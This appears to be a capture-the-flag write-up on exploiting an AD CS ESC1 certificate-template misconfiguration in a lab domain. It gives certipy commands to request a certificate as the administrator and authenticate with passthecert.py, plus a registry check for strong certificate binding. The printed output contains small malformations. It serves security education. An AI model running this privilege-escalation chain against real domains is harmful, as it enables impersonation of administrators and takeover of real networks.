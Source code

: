 # ADCS

AD CS is a Microsoft server role solution for public key infrastructure (PKI) that provides various services within an AD environment, in the form of certificate-based client authentication.
Misconfigurations in certificate templates bring about various vulnerabilities, which we will explore in this writeup. 

### Enumeration

```$ certipy find -u 'username@authority.htb' -p 'password' -dc-ip 10.10.11.222 -enabled```

```
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "AUTHORITY-CA",
      "DNS Name": "authority.authority.htb",
      "Certificate Subject": "CN=AUTHORITY-CA, DC=authority, DC=htb",
      "Permissions": {
          "512": [
            "AUTHORITY.HTB\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": {
    "1": {
      "Template Name": "CorpVPN",
      "Display Name": "Corp VPN",
      "Certificate Authorities": [
        "AUTHORITY-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        "EnrolleeSuppliesSubject"
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "KDC Authentication"
      ],
      "Requires Manager Approval": false,
      "Authorized Signatures Required": 0,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "AUTHORITY.HTB\\Domain Computers",
          ]
        }
        }
      },
      "[!] Vulnerabilities": {
        "ESC1": "'AUTHORITY.HTB\\\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication"
      }
    },
  }
```

for example, the template 'CorpVPN' is vulnerable to 'ESC1', where an enrolle from the Domain Computers security group can supply a subject for client authentication, effectively allowing the impersonation of users in the domain.

### Exploitation

An attacker with a user or machine account with an enrollment right would request a certificate with the UPN of the victim account:
```$ certipy req -u 'pc01$' -p 'password' -template CorpVPN -upn 'administrator@authority.htb -target authority.authority.htb -ca AUTHORITY-CA'```

```
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

## generate a crt and key for later authentication
```$ certipy cert -pfx administrator.pfx -nokey -out administrator.crt```

```[*] Writing certificate and  to 'administrator.crt'```

```$ certipy cert -pfx administrator.pfx -nocert -out administrator.key```

```[*] Writing private key to 'administrator.key'```
## authentication using passthecert.py
```$ python passthecert.py -action whoami -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -new-pass password```
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] You are logged in as: HTB\Administrator
```

if the regkey ```HKLM:\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement``` is set to 2, attackers will have to supply the szOID_NTDS_CA_SECURITY_EXT value when making a certificate request.

```If (Test-Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement") {(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc").StrongCertificateBindingEnforcement}```
